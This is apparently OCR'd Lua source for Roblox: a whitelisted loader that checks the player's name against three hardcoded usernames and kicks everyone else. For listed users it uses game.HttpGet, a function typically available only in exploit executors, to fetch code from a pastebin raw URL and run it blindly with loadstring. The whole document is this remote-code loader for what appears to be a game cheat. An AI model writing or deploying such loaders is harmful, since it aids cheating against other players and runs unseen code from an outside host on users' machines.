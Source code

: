 local userDatabase = {
    ["User1"] = true,
    ["Slashnjacobsaltyaccy"] = true,
    ["sinnedup123"] = true
}

-- Get the LocalPlayer
local player = game.Players.LocalPlayer

-- Check if the LocalPlayer's username is in the user database
if userDatabase[player.Name] then
    local success, scriptContent = pcall(game.HttpGet, game, "https://pastebin.com/raw/txRaF6UZ")
    if success then
        local scriptFunction = loadstring(scriptContent)
        if scriptFunction then
            scriptFunction()
        else
            print("Failed to load and execute external script.")
        end
    else
        print("Failed to fetch external script content.")
    end
else
    game.Players.LocalPlayer:Kick("Remember, sharing accounts is not allowed and your whitelist will be revoked.")
    return
end
